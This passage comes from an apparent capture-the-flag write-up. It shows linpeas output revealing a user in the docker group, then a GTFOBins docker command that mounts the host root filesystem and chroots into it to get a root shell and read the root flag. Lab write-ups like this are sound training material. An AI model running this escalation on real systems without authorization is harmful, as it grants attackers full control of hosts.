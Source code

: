 Now to enumerate the target from the inside, we can run linpeas, and we see that we are in the docker group:

```bash
====================================( Basic information )=====================================
OS: Linux version 4.15.0-109-generic (buildd@lgw01-amd64-010) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020
User & Groups: uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

## Docker GTFOBin

Using the docker GTFOBin from [here](https://gtfobins.github.io/gtfobins/docker/) we can get root. All we need to modify is the operating system, as the target is running Ubuntu. The command we use is:

```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

And we get root:

![root_shell](/assets/img/posts/cache/root_shell.png)

## Root.txt

And then we can get the root flag in /root

![root_flag](/assets/img/posts/cache/root_flag.png)